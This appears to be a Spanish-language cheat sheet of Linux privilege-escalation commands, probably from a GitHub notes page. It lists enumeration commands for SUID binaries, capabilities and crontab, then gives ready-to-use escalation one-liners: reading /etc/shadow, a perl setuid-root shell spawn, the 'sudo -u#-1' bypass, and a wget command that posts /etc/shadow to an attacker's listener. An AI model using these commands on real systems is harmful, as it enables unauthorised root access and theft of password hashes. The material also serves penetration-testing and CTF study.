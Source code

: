 ### Buscar Permisos SUID
#Linux
```python
	find / -perm -u=s -type f 2>/dev/null
```
### Buscar binarios

```python
	find / -perm -4000 2>/dev/null
```
### cambiar de usuario con sudo

```python
	sudo -u#-1
```
### Capabilities

```python
	getcap -r / 2>/dev/null
```
### Tareas crontab

```python
	cat /etc/crontab
```

---
### Escaladas 
### Escalada de privilegios con cat

```python
	/bin/cat /etc/shadow
```
### Escalada de privilegios con perl 

```python
	echo -ne '#!/bin/perl \nuse POSIX qw(setuid); \nPOSIX::setuid(0); \nexec "/bin/bash";' > script.pl
	
	perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
	
```
### Escalada de privilegios con wget

```python
sudo /usr/bin/wget --post-file=/etc/shadow <local-ip> <puerto>
```
